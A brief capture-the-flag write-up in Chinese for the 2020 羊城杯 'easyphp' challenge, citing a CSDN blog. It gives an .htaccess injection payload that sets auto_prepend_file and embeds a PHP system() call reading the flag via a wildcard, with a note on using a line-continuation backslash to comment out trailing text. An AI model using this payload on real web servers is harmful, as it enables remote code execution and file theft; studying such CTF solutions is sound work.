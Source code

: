 # WP
[[羊城杯2020]easyphp_[羊城杯 2020]easyphp_-栀蓝-的博客-CSDN博客](https://blog.csdn.net/qq_54929891/article/details/125573638)
# 思路
```javascript
php_value auto_prepend_fil\
e .htaccess
#<?php system('cat /fla?');?>\
```
第三行的\是为了和代码最后面拼接的Hello，world也当作注释，否则hello world到第四行会执行报错
